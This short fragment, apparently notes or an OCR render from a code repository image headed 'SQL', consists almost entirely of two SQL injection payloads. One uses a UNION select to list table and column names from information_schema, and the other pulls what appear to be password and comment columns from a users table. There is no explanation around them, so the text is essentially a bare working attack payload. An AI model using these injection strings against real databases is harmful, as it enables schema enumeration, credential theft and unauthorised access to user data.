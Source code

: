 # SQL 

1337 or 1=1 UNION select table_name, column_name FROM information_schema.columns

1337 or 1=1 union select countersign, Commentaire from users
